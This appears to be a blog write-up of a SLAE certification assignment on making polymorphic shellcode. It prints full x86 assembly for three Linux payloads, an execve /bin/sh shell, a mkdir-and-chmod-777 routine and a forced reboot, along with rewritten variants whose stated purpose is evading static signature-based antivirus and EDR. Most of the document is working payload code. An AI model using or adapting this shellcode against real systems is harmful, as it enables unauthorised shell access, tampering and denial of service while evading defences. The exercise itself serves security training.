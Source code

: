 ## SLAE Exam Assignment 6 - Creating polymorphic shellcode

## Prologue
The second last assignment of the SLAE certification exam was quite an intriguing one. We were told to take three shellcodes of our choosing from [shell-storm](https://www.shell-storm.org/shellcode/) or [exploit-db](https://www.exploit-db.com/shellcodes) and create Polymorphic versions of those to evade _static signature-based_ AV/EDRs. Needless to say, it was a quite fun and brain-racking challenge.

What's more? We were told that extra brownie-points would be given if the polymorphic shellcodes were smaller than the original.

So without any further ado, let's get down with it!

## What is polymorphic shellcode?
It is impossible to explain polymorphic shellcode if we don't understand what is polymorphism.

Polymorphism comes from the Greek words: _poly_ meaning "many" and _morph_ meaning "forms". In other words it roughly translates to "many forms" of the same thing.

Now let's understand what we mean by polymorphic shellcode with the help of a tiny example.

Each shellcode is crafted for a specific purpose right? Say there's a Reverse TCP shellcode which connects back to an attacker server for execution of arbritary commands. This shellcode was used many times in the past by an attacker along with an exploit to get access to a remote machine and exfiltrate data. Now the AV/EDR vendors have caught up to it and they have written signatures to detect this payload. Say a wannabe pen-tester get their hands on this payload and they too want to use this payload so they quickly decide to test this payload in a live-environment of their own before deploying it but alas! As soon as they fire up the payload, it gets detected by a commercial AV. This can't be any good!

Enter polymorphic shellcode!

So this script-kiddie gives this assembly code that he found to an 1337 hacker and he in return gives him back a modified payload which surprisingly runs as expected without any detections much to this script-kiddie's surprise. So what did this 1337 hacker do?

He basically modified the source that he received to beat _static signature analysis_. In other words, he created a polymorphic shellcode from the original source that has the same functionality but a different signature this time since he addded some new instructions, deleted some old instructions, added some NOP instructions yada yada yada.

Now that we know what is polymorphic shellcode and how it is useful for us, let's get our hands dirty with creating some!

## First polymorphic shellcode - execve(/bin/sh)
[Here](http://shell-storm.org/shellcode/files/shellcode-827.php) is the link to the original shellcode.

Original assembly source:

```nasm
xor eax, eax
push eax
push dword 0x68732f2f
push dword 0x6e69622f
mov ebx, esp
push eax
push ebx
mov ecx, esp
mov al, 0x0b
int 0x80
```

Polymorphic assembly source:

```nasm
xor eax, eax           ; Clearing out EAX register
xor ecx, ecx           ; Clearing out ECX regsiter
push eax               ; push for NULL termination
push dword 0x68732f2f  ; push //sh
push dword 0x6e69622f  ; push /bin
mov ebx, esp           ; store address of TOS - /bin//sh
mov al, 0x0b           ; store Syscall number for execve() = 11 OR 0x0b in AL
int 0x80               ; Execute the system call
```

Length of original shellcode: `23 bytes`

Length of polymorphic shellcode: `21 bytes`

Size Reduction: `9%`

For the first assignment I took a very simple shellcode which executes /bin/sh so I will not go into too much detail on how it works. I just bastardized the execve call and made the following modifications:

1. Removed the null termination push after /bin//sh
1. Removed the ECX pointing to argv[]

Let's see a demo of the shellcode in action now:

<script id="asciicast-WGxT2keT6AO81KpWMraSVUt4n" src="https://asciinema.org/a/WGxT2keT6AO81KpWMraSVUt4n.js" async></script>

## Second polymorphic shellcode - create dir + chmod 777 + exit
[Here](https://www.exploit-db.com/exploits/37358) is the link to the original shellcode.

Original assembly source:

```nasm
xor eax, eax
push eax
push dword 0x4b434148
mov al, 0x27
mov ebx, esp
inc cx
int 0x80
mov al, 0xf
mov cx, 0x1ff
int 0x80
xor eax, eax
inc eax
int 0x80
```

Polymorphic assembly source:

```nasm
xor eax, eax                 ; Clearing out EAX register
push eax                     ; PUSH for NULL termination
push dword 0x4b434148        ; PUSH dir name HACK
mov al, 0x27                 ; Load 0x27 syscall val for mkdir in AL 
mov ebx, esp                 ; Store address of TOS in EBX
int 0x80                     ; Executing mkdir syscall
mov al, 0xf                  ; Load 0x0f syscall val for chmod in AL
mov cx, 0x1ff                ; Load permission to CX
int 0x80                     ; Executing chmod syscall
inc eax                      ; Incrementing val of EAX to 1 - exit
int 0x80                     ; Executing exit syscall
```

Length of original shellcode: `29 bytes`

Length of polymorphic shellcode: `25 bytes`

Size Reduction: `14%`

This is a shellcode which will create a directory named "HACK"(modifiable), set the permission of the directory to 777 using chmod and then exit gracefully.

The modifications made for creating the polymorphic shellcode are as follows:

1. Removed the XOR'ing of EAX for the exit syscall because we don't really need that.
1. Removed the INC of CX by 1 before syscall of mkdir as an optional argument because again it is not strictly necessary.

There isn't much left to further decrease the size but hey we did decrease it by 14%.

Let's see a demo of the shellcode in action now:

<script id="asciicast-rhGNnD45lsmXLIXTluTbKOB49" src="https://asciinema.org/a/rhGNnD45lsmXLIXTluTbKOB49.js" async></script>

## Third polymorphic shellcode - force system reboot 
[Here](http://shell-storm.org/shellcode/files/shellcode-831.php) is the link to the original shellcode.

Original assembly source:

```nasm
xor eax, eax
push eax
push 0x746f6f62
push 0x65722f6e
push 0x6962732f
mov ebx, esp
push eax
push word 0x662d
mov esi, esp
push eax
push esi
push ebx
mov ecx, esp
mov al, 0xb
int 0x80
```

Polymorphic assembly source:

```nasm
xor eax, eax            ; Clearing the EAX register
xor ebx, ebx            ; Clearing the EBX register
xor ecx, ecx            ; Clearing the ECX register
cdq                     ; Clearing the EDX register
mov al, 0x58            ; Loading syscall value = 0x58 for reboot in AL
mov ebx, 0xfee1dead     ; Loading magic 1 in EBX
mov ecx, 672274793      ; Loading magic 2 in ECX
mov edx, 0x1234567      ; Loading cmd val = LINUX_REBOOT_CMD_RESTART in EDX
int 0x80                ; Executing the reboot syscall
```

Length of original shellcode: `36 bytes`

Length of polymorphic shellcode: `26 bytes`

Size Reduction: `28%`

